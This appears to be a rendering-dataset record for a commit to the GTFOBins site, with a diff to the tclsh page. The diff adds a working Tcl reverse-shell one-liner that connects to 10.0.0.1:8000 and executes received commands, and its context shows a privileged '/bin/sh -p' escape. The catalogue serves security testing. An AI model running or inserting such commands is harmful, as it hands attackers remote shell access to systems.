

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tclsh.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add tclsh reverse shell

```diff
--- a/_gtfobins/tclsh.md
+++ b/_gtfobins/tclsh.md
@@ -12,4 +12,10 @@ functions:
     - code: |
         ./tclsh
         exec /bin/sh -p <@stdin >@stdout 2>@stderr
+  reverse-shell:
+    - description:
+      code: |
+        export RHOST=10.0.0.1
+        export RPORT=8000
+        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
 ---
```
